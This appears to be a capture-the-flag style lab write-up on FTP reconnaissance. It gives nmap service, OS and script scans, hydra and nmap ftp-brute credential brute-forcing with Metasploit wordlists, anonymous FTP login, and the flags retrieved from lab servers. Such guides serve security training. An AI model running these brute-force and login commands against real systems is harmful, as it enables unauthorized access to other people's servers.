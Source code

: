 # FTP Server Reconnaissance Basics: A Step-by-Step Guide

This guide provides various commands to FTP reconnaisance basics.

### 1. Ping Command

Checks if the target system is reachable:
`ping [target IP]`

### 2. Nmap Command

Performs a network scan to identify open ports and services:
`nmap [target IP]`

### 3. Detailed Nmap Scan

Scans the FTP port (port 21) and identifies the software and operating system:
`nmap [target IP] -p 21 -sV -O`
_Port 21 = default FTP port. Port runs ProFTP 1.3.5a, OS = Linux 2.6.32_

### 4. FTP Client
### To get the admin flag, we go through following commands:
Connects to the FTP server of the target system:
`ftp [target IP]`

### 5. Hydra Command

Performs a brute-force attack to crack username and password:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] ftp`
_Tries usernames and common passwords._

### 6. FTP Login and File Download

Logs in with the found credentials and downloads a file:
`ftp [target IP], sysadmin, 654321`
After login:
`ls`
`get secret.txt`

### 7. List Directory Contents

Displays the contents of the current directory:
`ls`

### 8. Display File Contents

Displays the contents of the downloaded file:
`cat secret.txt`

### 9. Nmap Brute-Force Script

Creates a file with the username and performs a brute-force attack with nmap:
`echo "sysadmin" > users`
`cat users`
`nmap [target IP] --script ftp-brute --script-args userdb=/root/users -p 21`


Questions

    1. What is the version of FTP server?
    2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/        unix_passwords.txt       to check if any of these credentials work on the system. List all found credentials.
    3. Find the password of user “sysadmin” using nmap script.
    4. Find seven flags hidden on the server.


1. We run the following command to get info about the OS and services:
` nmap 192.132.3.3 -p 21 -sV`
**ProFTPD 1.3.5a**
2. We want to brute-force usernames and passwords using the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt    and the password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt. After that we wanna check if they work on our FTP service:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.132.3.3 ftp`
**We can login with all the credentials using following command:**
`ftp [target IP]`
3. To try bruteforcing with nmap, we use following command:
`nmap 192.132.3.3 --script ftp-brute --script-args userdb=/root/users -p 21`
**sysadmin:654321 - Valid credentials**
![grafik](https://github.com/user-attachments/assets/80eb1d5b-9dfb-4215-9e2d-64d79919259e)

### FTP Login

`ip a`
`ping [target IP]`
`nmap [target IP]`: port 21 open
`nmap [target IP] -p 21 -sV`: version: vsftpd 
`nmap [target IP] -p 21 --script ftp-anon`: Anonymous FTP login is allowed
`ftp [target IP]`: anonymous, password: none
`ls`
    ftp:`get flag`
    ftp: `bye`
`cat flag`



1. Find the version of vsftpd server.
2. Check whether anonymous login is allowed on the ftp server using nmap script.
3. Fetch the flag from FTP server.

We want to find out the version of the vsftpd server:
`nmap 192.158.73.3 -p 21 -sV`
**vsftpd 3.0.3**

After that we want to check if anonymous login is allowed on the ftp server using following nmap script:
`nmap 192.158.73.3 -p 21 --script ftp-anon`
**Anonymous login allowed**

So we login:
`ftp login`
and we get the flag.




